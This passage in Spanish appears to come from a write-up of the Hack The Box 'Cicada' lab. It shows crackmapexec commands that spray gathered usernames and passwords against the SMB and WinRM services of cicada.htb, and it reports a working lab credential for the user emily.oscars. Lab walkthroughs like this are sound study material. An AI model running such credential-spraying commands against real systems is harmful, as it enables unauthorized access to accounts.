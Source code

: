 ![img](./img/cicada/img13.png)

Ahora con esta nueva contraseña ingresada en nuestro diccionario de password, realizamos otra vez el comando `crackmapexec`.
```ruby
crackmapexec smb cicada.htb -u users -p pass --continue-on-success
```

Se puede observar que efectivamente este usuario y contraseña son validos para `smb`.

![img](./img/cicada/img14.png)

Ahora vamos a probar otro protocolo para ver si tenemos algún acceso con estos usuario y contraseñas que se encontraron.
```ruby
crackmapexec winrm cicada.htb -u users -p pass --continue-on-success
```

Se logra observar que con el servicio de `winrm`, logramos tener un acceso al sistemas, con el usuario `emily.oscars` y password `Q!3@Lp#M6b*7t*Vt`

![img](./img/cicada/img15.png)